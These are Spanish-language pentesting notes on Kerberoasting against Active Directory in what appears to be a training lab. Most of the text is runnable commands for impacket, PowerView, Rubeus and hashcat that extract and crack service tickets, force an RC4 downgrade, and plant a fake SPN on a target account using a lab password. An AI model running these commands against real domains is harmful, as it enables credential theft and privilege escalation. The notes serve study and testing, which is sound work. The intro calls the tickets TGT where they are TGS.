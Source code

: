 #kerberoasting
Técnica de escalada de privilegios y movimiento lateral. Se atacan cuentas asociadas a SPN solicitando tickets TGT, para posteriormente crackearlos con hashcat. Cualquier usuario autenticado en el AD puede solictar un ticket TGS.
## Linux
Necesitamos tener credenciales de acceso (texto plano o NTML hash) y una shell en el contexto del usuario de dominio o `SYSTEM` shell. En los ejemplos suponemos que tenemos acceso al dominio con el usuario `forend`
- Listar cuentas SPN - GetUserSPNs.py 
	```bash
	impacket-GetUserSPNs -dc-ip $dcip INLANEFREIGHT.LOCAL/forend
	```
- Solicitar todos los tickets TGS (añadir la flag `-requets` al comando anterior)
	```bash
	GetUserSPNs.py -dc-ip $dcip INLANEFREIGHT.LOCAL/forend -request -outputfile allTickets
	```
- Solicitar el ticket de un solo servicio (ej: `sqldev`)
	```bash
	GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
	```

### Windows 
Se podría hacer de forma semi-manual si no funciona ninguna de estas opciones (documentado en notion)
#### Powerview
- Único target
	```powershell
	Import-Module .\PowerView.ps1 
	Get-DomainUser * -spn | select samaccountname 
	# Supongamos que a partir de aquí seleccionamos como objetivo sqldev 
	Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
	```
- Exportar todos los tickets en csv
	```powershell
	Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
	```
 
#### Rubeus
Tiene alguna opción adicional a las de PowerView
- Obtener información sobre tickts TGS
	```powershell
	.\Rubeus.exe kerberoast /stats
	```
- Extraer todos los tickets TGS
	```powershell
	.\Rubeus.exe kerberoast /nowrap
	.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
	```
- Extraer los tickets de las cuentas más valiosas (`admincount=1`)
	```powershell
	.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	```
- Extraer spn de un servicio concreto (ej: `sqldev` )
#### Cambiando el formato del hash (downgrading) - hasta Windows Server 2019 
Las cuentas de servicio que tienen encriptación `AES 128/256`, también pueden ser craqueadas, pero el proceso es mucho más lento. (se podría hacer con `hashcat -m 19700`)
- Forzar a generar un ticket con encriptación `RC4 HMAC`
	```powershell
	.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
	```
### Craquear offline los tickets - hashcat
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```
- Una vez craqueado, lo consideramos como un usuario más (podemos intentar rdp ó impacket-psexec o similar sobre él)

## Kerberoasting dirigido
La idea es tratar de craquear la cuenta de usuario que queramos creando un SPN falso asociado a ese usuario. Para poder realizar un ataque de este tipo necesitamos tener la capacidad de modificar o agregar SPNs en una cuenta de usuario. 
### Requisitos

| Permiso           | Descripción                                                  | Impacto en Kerberoasting Dirigido                     |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------------------- |
| **GenericAll**    | Control total sobre el objeto.                               | Modifica cualquier atributo, incluido SPN.            |
| **GenericWrite**  | Escritura en cualquier atributo del objeto.                  | Permite añadir/modificar SPNs.                        |
| **WriteProperty** | Escritura en atributos específicos (`servicePrincipalName`). | Modifica solo atributos seleccionados.                |
| **WriteDACL**     | Modificación de la DACL para otorgarse permisos adicionales. | Otorga permisos como `GenericWrite` sobre SPN.        |
| **Self**          | Permite modificar ciertos atributos del propio objeto.       | Puede modificar su propio SPN si tiene `Self` en SPN. |
### Ataque 
- Creamos un objeto de tipo `$Cred` con las credenciales de un usuario que tenga permisos para crear un SPN (ej: `damundsen`)
	```powershell
	$pass = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
	$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen',$pass )
	```
- Creamos un fake SPN con PowerView para el usuario que queramos comprometer (ej: `adunn`) - `Set-DomainObject`
```powershell
Set-DomainObject -Credential $cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
- Obtenemos información sobre el ticket creado con `rubeus`
	```powershell
	.\Rubeus.exe kerberoast /user:adunn /nowrap
	```
- Tratamos de craquear el ticket con `hashcat -m 13100`